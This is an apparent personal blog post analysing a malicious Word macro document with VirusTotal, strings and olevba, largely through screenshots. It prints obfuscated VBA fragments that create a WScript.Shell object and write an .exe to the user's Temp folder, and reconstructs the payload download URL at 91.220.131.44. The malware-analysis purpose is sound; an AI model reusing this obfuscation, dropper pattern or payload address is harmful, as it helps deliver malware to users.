 ```yaml
---
title:  "Malicious Document Analysis"
author: Vince Jang
date: 2024-01-15 00:00:00 +0000
categories: [projects]
tags: [projects]
image: /assets/img/pic10.3.png
render_with_liquid: false
---
```


# Malicious Document Analysis(DOC VBA)

Weaponized MS office documents pose a large risk to organizations.. From embedded active content, such as scripts and HTML code in Word and Powerpoint files to Excel macros, this is an attack vector every organization must pay attention to. About 1 million companies worldwide use Office 365 and 70% of Fortune 500 companies purchased O365 in 2020. As a result, nearly every business transaction involving a file transfer will likely be in a Microsoft office format at risk of containing malware.

![images](/assets/img/pic10.1.1.PNG)  
Have you ever seen this warning when opening MS Office files? And did you just click it? This is the danger you should be aware of. As soon as you click the 'Enable Content' button, your whole computer could be compromised. Unfortunately, people still click it

## Macro
Macros is A small program that is often written to automate repetitive tasks in MS Office applications. Macros are typically written in Visual Basic for Application(VBA), a programming language developed by microsoft that is supported by all Microsoft Office products.

## Tools
1. Linux / highly recommend REMnux on VirtualBox but I will use Kali for instance
2. ExifTool, Strings, Xorsearch and more
3. Olevba to extract malicious macros

## Analysis 

I am going to do basic dynamic analysis with [Virustotal](https://www.virustotal.com/gui/home/upload),  
We are going to Extract Hash key of Baddoc.doc(Malicious file)  
![images](/assets/img/pic10.1.PNG)  
and we are going to use Search module in Virustotal to see what information we can get.  
![images](/assets/img/pic10.2.PNG)  
![images](/assets/img/pic10.3.PNG)  
![images](/assets/img/pic10.4.PNG)  
![images](/assets/img/pic10.5.PNG)  
As you can see we can find all information such as file names, create dates, contacted IP addresses, drop files, sand box reports, registry set keys and many more  
Do you think this is malicious file? I agree but I need more information, Let's dig into it.  

if you are using REMnux all tools are pre installed, If you using other Linux you might need to install some of tools.  
![images](/assets/img/pic10.6.PNG)  
Let's start analyze  
![images](/assets/img/pic10.7.PNG)  
We can see the Language code is "Russian" and Template type is ".dotm" which is Macros.  
this is pretty suspicious to me.  
## What to look for
1. IP addresses
2. Website / http
3. Domains
4. File locations that are suspicious
5. Malicious code
6. Malicious files  
Okay lets type `strings -n 5 baddoc.doc` (it basically means find strings anything longer than 5 characters)  
![images](/assets/img/pic10.8.PNG)  
![images](/assets/img/pic10.9.PNG)  
![images](/assets/img/pic10.10.PNG)  
I can see some IP addresses and File directories which is suspicious but it's really messy and hard to look.  
Let's use other tools  
I installed oletools 
![images](/assets/img/pic10.12.PNG)  
and excute it.  
![images](/assets/img/pic10.13.PNG)  
![images](/assets/img/pic10.14.PNG)  
We can see more organized information such as this document is not encryped and this file contains VBA Macros, but still Very Basic.  
Let's see what is in VBA script.  
![images](/assets/img/pic10.15.PNG)  
![images](/assets/img/pic10.16.PNG)  
Here we go. It highlighted suspicious keywords and we can have a look in more details.  
If we open this file all the code in this file will be excuted.  
![images](/assets/img/pic10.17.PNG)  
For example, I found a code line `"$file = 'c:\Users\" + USER + "\AppData\Local\Temp\" + "4" & "44." + Chr(101) & "xe';"`,`Chr(Asc("C")) + "reate" + "O" + "bject(" + Chr(34) + "W" + "S" + "cript." + "S" + "hell" + Chr(34) + ")" + "" & ""` this is malicious code. they use divided strings to hide the actual code they want to excute.  
I still want to see more Detail,
So, I decoded all the malicious code file.  
![images](/assets/img/pic10.18.PNG)  
And it looks like this.  
![images](/assets/img/pic10.19.PNG)  
![images](/assets/img/pic10.20.PNG)  
![images](/assets/img/pic10.21.PNG)  
![images](/assets/img/pic10.22.PNG)  
"It gives us more details in keywords and descriptions, such as PowerShell commands, executable file names, temporary directories, ping, and many more. With this information, I am 100% sure that this is a malicious file.  
One thing that is really interesting is the use of a bit of a twist: `Print #FileNumber, "strRT = ""http://91.220.131" + JASHDUIQWHDKJQAD + ".exe""` . If you find "JASHDUIQWHDKJQAD" in this code, it is it is ![images](/assets/img/pic10.24.PNG)  
In this case This URL is going to install something and it will be `http://91.220.131.44/upd/install.exe` Now we know IP address, Malicious file and the path.  
SO, DO NOT OPEN IT!










